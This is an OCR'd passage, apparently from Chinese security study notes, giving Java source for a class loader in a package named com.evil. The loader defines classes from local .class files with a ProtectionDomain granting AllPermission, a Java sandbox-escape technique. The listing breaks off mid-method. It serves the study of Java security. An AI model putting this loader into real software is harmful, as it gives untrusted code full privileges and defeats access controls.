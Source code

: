 
- ClassLoader如下

  ```java
  package com.evil;
  
  import java.io.ByteArrayOutputStream;
  import java.io.File;
  import java.io.FileInputStream;
  import java.nio.ByteBuffer;
  import java.nio.channels.Channels;
  import java.nio.channels.FileChannel;
  import java.nio.channels.WritableByteChannel;
  import java.security.*;
  import java.security.cert.Certificate;
  
  public class MyClassLoader extends ClassLoader {
      public MyClassLoader() {
      }
  
      public MyClassLoader(ClassLoader parent) {
          super(parent);
      }
  
  
      @Override
      protected Class<?> findClass(String name) throws ClassNotFoundException {
          File file = getClassFile(name);
          try {
              byte[] bytes = getClassBytes(file);
              //在这里调用defineClazz，而不是super.defineClass
              Class<?> c = defineClazz(name, bytes, 0, bytes.length);
              return c;
          } catch (Exception e) {
              e.printStackTrace();
          }
  
          return super.findClass(name);
      }
  
      protected final Class<?> defineClazz(String name, byte[] b, int off, int len) throws ClassFormatError {
          try {
              PermissionCollection pc=new Permissions();
              pc.add(new AllPermission());
  
              //设置ProtectionDomain
              ProtectionDomain pd = new ProtectionDomain(new CodeSource(null, (Certificate[]) null),
                      pc, this, null);
              return this.defineClass(name, b, off, len, pd);
          } catch (Exception e) {
              return null;
          }
      }
  
      private File getClassFile(String name) {
          File file = new File("./" + name + ".class");
          return file;
      }
  
      private byte[] getClassBytes(File file) throws Exception {
          FileInputStream fis = new FileInputStream(file);
          FileChannel fc = fis.getChannel();
          ByteArrayOutputStream baos = new ByteArrayOutputStream();
  ```